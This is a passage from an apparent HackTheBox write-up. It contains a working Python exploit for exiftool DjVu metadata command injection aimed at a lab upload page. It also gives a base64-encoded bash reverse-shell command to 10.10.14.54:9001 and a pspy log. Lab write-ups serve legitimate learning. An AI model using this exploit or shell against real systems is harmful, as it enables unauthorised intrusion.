     if len(sys.argv) !=2:
        print("usage: python3 l.py cmd")
        exit(0)

    payload = "(metadata \"\c${system('"+sys.argv[1]+"')};\")"

    f = open('payload', 'w')
    f.write(payload)
    f.close()

    os.system("cp 0.jpg 1.jpg")
    os.system('bzz payload payload.bzz')

    os.system("djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz")


    os.system("exiftool -config configfile '-HasselbladExif<=exploit.djvu' ./1.jpg")

    files = {'imageUpload': open('1.jpg','rb')}
    r = requests.post('http://dev01.artcorp.htb/metaview/index.php', files=files)

    print(r.text[1442:-896])

    os.popen("rm 1.jpg 1.jpg_original payload payload.bzz exploit.djvu")

Using this script and encoding the payload as base64 we can get a reverse
shell on the box:

`python3 l.py 'echo -n 'YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41NC85MDAxIDA+JjEi' | base64 -d | bash'`

# User

We are the `www-data` user on the box. We run a few enumeration tools
(`linpeas`) but nothing pop out. We run
[pspy](https://github.com/DominicBreuker/pspy) to get the running process and
found that the script `/usr/local/bin/convert_images.sh` is running periodically
by the user with the UID 1000.

    :::text
    www-data@meta:/tmp$ ./pspy64
    ./pspy64
    done
    <SNIP>
    2022/01/28 08:01:44 CMD: UID=33   PID=5978   | bash
    2022/01/28 08:01:44 CMD: UID=33   PID=5975   | sh -c echo -n YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41NC85MDAxIDA+JjEi | base64 -d | bash
    2022/01/28 08:01:44 CMD: UID=33   PID=5974   | /usr/bin/perl -w /usr/local/bin/exiftool /var/www/dev01.artcorp.htb/metaview/uploads/phpnACkFs.jpg --system:all --exiftool:all -e
    2022/01/28 08:01:44 CMD: UID=33   PID=5973   | sh -c exiftool '/var/www/dev01.artcorp.htb/metaview/uploads/phpnACkFs.jpg' --system:all --exiftool:all -e
    <SNIP>
    2022/01/28 08:02:01 CMD: UID=0    PID=18991  | /bin/sh -c cp -rp ~/conf/config_neofetch.conf /home/thomas/.config/neofetch/config.conf
    2022/01/28 08:02:01 CMD: UID=0    PID=18993  | /usr/sbin/CRON -f
    2022/01/28 08:02:01 CMD: UID=0    PID=18994  | /usr/sbin/CRON -f
    2022/01/28 08:02:01 CMD: UID=0    PID=18995  | /bin/sh -c rm /tmp/*
    2022/01/28 08:02:01 CMD: UID=1000 PID=18996  | /bin/sh -c /usr/local/bin/convert_images.sh
    2022/01/28 08:02:01 CMD: UID=1000 PID=18997  | /usr/local/bin/mogrify -format png *.*
    2022/01/28 08:02:01 CMD: UID=1000 PID=18998  | pkill mogrify

